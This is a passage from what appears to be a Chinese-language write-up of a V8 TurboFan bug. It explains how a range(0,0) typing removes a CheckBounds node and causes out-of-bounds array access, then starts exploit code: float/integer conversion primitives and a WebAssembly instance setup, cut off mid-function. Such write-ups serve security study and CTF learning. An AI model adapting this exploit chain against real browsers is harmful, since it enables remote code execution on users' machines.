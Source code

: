 这样turbofan中的range(0,0)就会如愿消除掉checkbounds节点，达到数组越界。


## exp
这里有一个小trick：

如果使用[]方括号来声明数组，得到的内存布局中对象的elements会在对象的前面。但是如果用的是new Array()的方法来声明数组，得到的内存布局中，elements会放在对象的后面。

```
const buf = new ArrayBuffer(8);
const f64 = new Float64Array(buf);
const u32 = new Uint32Array(buf);
// Floating point to 64-bit unsigned integer
function f2i(val)
{ 
    f64[0] = val;
    let tmp = Array.from(u32);
    return tmp[1] * 0x100000000 + tmp[0];
}
// 64-bit unsigned integer to Floating point
function i2f(val)
{
    let tmp = [];
    tmp[0] = parseInt(val % 0x100000000);
    tmp[1] = parseInt((val - tmp[0]) / 0x100000000);
    u32.set(tmp);
    return f64[0];
}
// 64-bit unsigned integer to hex
function hex(i)
{
    return i.toString(16).padStart(16, "0");
}

function success_value(msg, value) {
    console.log("[+] "+msg+hex(value));
}

function d2u(num1,num2){ // uint32*2 --> float64
    d = new Uint32Array(2);
    d[0] = num2;
    d[1] = num1;
    f = new Float64Array(d.buffer);
    return f[0];
}

function wasm_func() {
    var wasmImports = {
        env: {
            puts: function puts (index) {
                console.log(index);
            }
        }
    };
    var buffer = new Uint8Array([0,97,115,109,1,0,0,0,1,137,128,128,128,0,2,
        96,1,127,1,127,96,0,0,2,140,128,128,128,0,1,3,101,110,118,4,112,117,
        116,115,0,0,3,130,128,128,128,0,1,1,4,132,128,128,128,0,1,112,0,0,5,
        131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,146,128,128,128,0,2,6,
        109,101,109,111,114,121,2,0,5,104,101,108,108,111,0,1,10,141,128,128,
        128,0,1,135,128,128,128,0,0,65,16,16,0,26,11,11,146,128,128,128,0,1,0,
        65,16,11,12,72,101,108,108,111,32,87,111,114,108,100,0]);
    let m = new WebAssembly.Instance(new WebAssembly.Module(buffer),wasmImports);
    let h = new Uint8Array(m.exports.memory.buffer);
    return m.exports.hello;
```
